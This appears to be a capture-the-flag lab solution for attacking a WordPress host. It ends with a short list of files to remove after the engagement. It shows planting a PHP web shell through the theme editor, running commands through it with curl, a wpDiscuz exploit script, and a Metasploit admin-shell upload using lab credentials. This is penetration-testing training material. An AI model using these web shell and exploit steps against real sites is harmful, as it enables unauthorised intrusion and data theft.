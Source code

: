 ### Lab 4: Code Execution and Flag Retrieval
**Question:** "Following the steps in this section, obtain code execution on the host and submit the contents of the flag.txt file in the webroot."

**Solution:**
```bash
# Method 1: Theme Editor Approach
# 1. Login to wp-admin with john:firebird1
# 2. Go to Appearance -> Theme Editor
# 3. Select Twenty Nineteen theme
# 4. Edit 404.php and add: system($_GET['cmd']);
# 5. Execute commands via web shell

curl "http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=find+/var/www/html+-name+flag.txt"
curl "http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=cat+/var/www/html/flag.txt"

# Method 2: wpDiscuz Exploit
python3 wp_discuz.py -u http://blog.inlanefreight.local -p "/?p=1"
curl "http://blog.inlanefreight.local/wp-content/uploads/2021/08/[WEBSHELL].php?cmd=cat+/var/www/html/flag.txt"

# Method 3: Metasploit
use exploit/unix/webapp/wp_admin_shell_upload
set USERNAME john
set PASSWORD firebird1
set RHOSTS 10.129.42.195
set VHOST blog.inlanefreight.local
exploit
cat /var/www/html/flag.txt

# Expected answer: [FLAG_CONTENT]
```

---

## Security Cleanup & Artifacts

### Post-Engagement Cleanup

#### Files to Remove
```bash
# Web shells and backdoors
rm /wp-content/themes/twentynineteen/404.php.bak
rm /wp-content/uploads/*/webshell*.php
rm /wp-content/plugins/malicious-plugin/

# Metasploit artifacts
find /wp-content/plugins/ -name "*random*.php" -delete
```
